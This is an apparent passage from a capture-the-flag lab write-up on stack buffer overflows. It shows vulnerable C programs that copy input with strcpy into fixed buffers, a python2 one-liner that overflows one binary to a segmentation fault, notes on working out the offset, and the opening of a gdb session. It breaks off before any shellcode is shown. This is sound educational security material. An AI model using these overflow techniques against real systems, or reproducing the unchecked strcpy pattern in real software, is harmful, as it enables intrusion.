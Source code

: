 ```
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}

[user1@ip-10-10-69-210 overflow-4]$ cat ../overflow-3/buffer-overflow.c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}


let's do it again!
yep it's quite similar


[user1@ip-10-10-2-237 overflow-4]$ ls
buffer-overflow-2  buffer-overflow-2.c  secret.txt
[user1@ip-10-10-2-237 overflow-4]$ ./buffer-overflow-2 hi
new word is doggohi
[user1@ip-10-10-2-237 overflow-4]$ ./buffer-overflow-2 OFF
new word is doggoOFF


but this time doggo is add it so need to remove it

[user1@ip-10-10-2-237 overflow-4]$ ./buffer-overflow-2 $(python2 -c "print 'A' * 155")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault

offset

The buffer is 154 bytes, but the string doggo (5 characters) is added. So we should begin to test from 154-5. Let’s start with 8 more bytes: 


[user1@ip-10-10-2-237 overflow-4]$ gdb buffer-overflow-2
GNU gdb (GDB) Red Hat Enterprise Linux 8.0.1-30.amzn2.0.3
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
```